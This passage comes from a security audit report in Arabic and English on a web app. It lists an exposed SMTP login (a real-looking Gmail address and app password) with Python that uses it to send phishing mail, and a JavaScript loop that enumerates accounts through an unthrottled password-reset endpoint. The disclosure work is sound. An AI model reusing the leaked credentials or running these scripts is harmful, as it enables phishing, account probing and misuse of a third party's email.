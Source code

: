 **الثغرة:**
```env
SMTP_USER=baraawael7901@gmail.com
SMTP_PASS=thebdtjxrxifnmat
```

**كيف يستغلها الهاكر:**
```python
import smtplib

# Use stolen credentials
smtp = smtplib.SMTP('smtp.gmail.com', 587)
smtp.login('baraawael7901@gmail.com', 'thebdtjxrxifnmat')

# Send phishing emails from official email:
for user in victims:
    smtp.sendmail(
        'baraawael7901@gmail.com',
        user.email,
        'Your account has been compromised. Click here to reset...'
    )
```

**Impact:**
- ✅ Phishing attacks using official email
- ✅ Social engineering
- ✅ Reputation damage
- ✅ Access to email history

**CVSS Score:** 7.5 (High)

---

### 6. **No Rate Limiting on Password Reset** 🟠
**File:** `src/middlewares/rateLimiter.js`  
**Severity:** HIGH

**الثغرة:**
```javascript
// No specific rate limit for forgot password endpoint
// Only global limiter: 10,000 req/15min
```

**كيف يستغلها الهاكر:**
```javascript
// Enumeration attack
const emails = ['user1@gmail.com', 'user2@gmail.com', ...];

for (const email of emails) {
  const res = await fetch('/api/v1/auth/forgot-password', {
    method: 'POST',
    body: JSON.stringify({ email })
  });
  
  // Different responses reveal if email exists
  if (res.status === 200) {
    console.log('Valid email:', email);
  }
}

// Can send 10,000 password reset emails!
```
